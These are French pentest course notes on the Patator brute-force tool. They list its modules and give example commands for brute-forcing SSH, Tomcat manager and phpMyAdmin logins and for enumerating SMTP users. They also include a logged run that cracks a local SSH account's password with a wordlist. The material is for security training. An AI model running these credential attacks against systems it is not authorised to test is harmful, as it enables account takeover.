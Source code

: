 .pentest
[[Readme (outils)]]

Pour tester la force des mots de passe (catégorie : Bruteforce)
script python mis au point par Sébastien Macke, capable de bruteforcer un peu tout et n’importe
quoi, que ce soit SSH, SMTP, MySQL, VNC et même les fichiers zip et les DNS (c’est à dire pour
débusquer certains sous-domaines inconnus). Il suffit d’utiliser le bon module :
• ftp_login : Brute-force FTP
• ssh_login : Brute-force SSH
• telnet_login : Brute-force Telnet
• smtp_login : Brute-force SMTP
• smtp_vrfy : Enumerate valid users using the SMTP VRFY command
• smtp_rcpt : Enumerate valid users using the SMTP RCPT TO command
• http_fuzz : Brute-force HTTP/HTTPS
• pop_passd : Brute-force poppassd (not POP3)
• ldap_login : Brute-force LDAP
• smb_login : Brute-force SMB
• mssql_login : Brute-force MSSQL
• oracle_login : Brute-force Oracle
• mysql_login : Brute-force MySQL
• pgsql_login : Brute-force PostgreSQL
• vnc_login : Brute-force VNC
• dns_forward : Forward lookup subdomains
• dns_reverse : Reverse lookup subnets
• snmp_login : Brute-force SNMPv1/2 and SNMPv3
• unzip_pass : Brute-force the password of encrypted ZIP files
• keystore_pass : Brute-force the password of Java keystore files
Pour bruteforcer, il faut :
• D'un dictionnaire
• Python
• Patator
https://www.frameip.com/dictionnaire/
https://github.com/lanjelot/patator
Utilisation (ssh) :
python3 patator.py ssh_login
Patator 1.0 (https://github.com/lanjelot/patator) with python-3.9.2
Usage: ssh_login <module-options ...> [global-options ...]
Examples:
 ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'
Module options:
 host : target host
 port : target port [22]
 user : usernames to test
 password : passwords to test
 auth_type : type of password authentication to use [password|keyboard-interactive|auto]
 keyfile : file with RSA, DSA, ECDSA or ED25519 private key to test
 persistent : use persistent connections [1|0]
 [pierre@parrot] [~/SupDeVinci/pentest/patator]
 $python3 patator.py ssh_login host=127.0.0.1 user=tom password=FILE0 0=~/Téléchargements/francais-villes.txt -x
ignore:mesg='Authentication failed.'
11:43:41 patator INFO - Starting Patator 1.0 (https://github.com/lanjelot/patator) with python-3.9.2 at 2023-11-14 11:43 CET
11:43:41 patator INFO -
11:43:41 patator INFO - code size time | candidate | num | mesg
11:43:41 patator INFO - -----------------------------------------------------------------------------
11:43:53 patator INFO - 0 38 0.031 | marseille | 42 | SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u2
11:43:59 patator INFO - Hits/Done/Skip/Fail/Size: 1/61/0/0/61, Avg: 3 r/s, Time: 0h 0m 17s
Utilisation (http) :
Patator 1.0 (https://github.com/lanjelot/patator) with python-3.9.2
Usage: http_fuzz <module-options ...> [global-options ...]
Examples:
 http_fuzz url=http://10.0.0.1/FILE0 0=paths.txt -x ignore:code=404 -x ignore,retry:code=500
Patator
mardi 14 novembre 2023 10:57
 Pentest Page 1
 http_fuzz url=http://10.0.0.1/FILE0 0=paths.txt -x ignore:code=404 -x ignore,retry:code=500
 http_fuzz url=http://10.0.0.1/manager/html user_pass=COMBO00:COMBO01 0=combos.txt -x ignore:code=401
 http_fuzz url=http://10.0.0.1/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0
=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
Module options:
 url : target url (scheme://host[:port]/path?query)
 body : body data
 header : use custom headers
 method : method to use [GET|POST|HEAD|...]
 raw_request : load request from file
 scheme : scheme [http|https]
 auto_urlencode: automatically perform URL-encoding [1|0]
 pathasis : retain sequences of /../ or /./ [0|1]
 user_pass : username and password for HTTP authentication (user:pass)
 auth_type : type of HTTP authentication [basic | digest | ntlm]
 follow : follow any Location redirect [0|1]
 max_follow : redirection limit [5]
 accept_cookie : save received cookies to issue them in future requests [0|1]
 proxy : proxy to use (host:port)
 proxy_type : proxy type [http|socks4|socks4a|socks5]
 resolve : hostname to IP address resolution to use (hostname:IP)
 ssl_cert : client SSL certificate file (cert+key in PEM format)
 timeout_tcp : seconds to wait for a TCP handshake [10]
 timeout : seconds to wait for a HTTP response [20]
 before_urls : comma-separated URLs to query before the main request
 before_header : use a custom header in the before_urls request
 before_egrep : extract data from the before_urls response to place in the main request
 after_urls : comma-separated URLs to query after the main request
 max_mem : store no more than N bytes of request+response data in memory [-1 (unlimited)]
 persistent : use persistent connections [1|0]
 Pentest Page 2 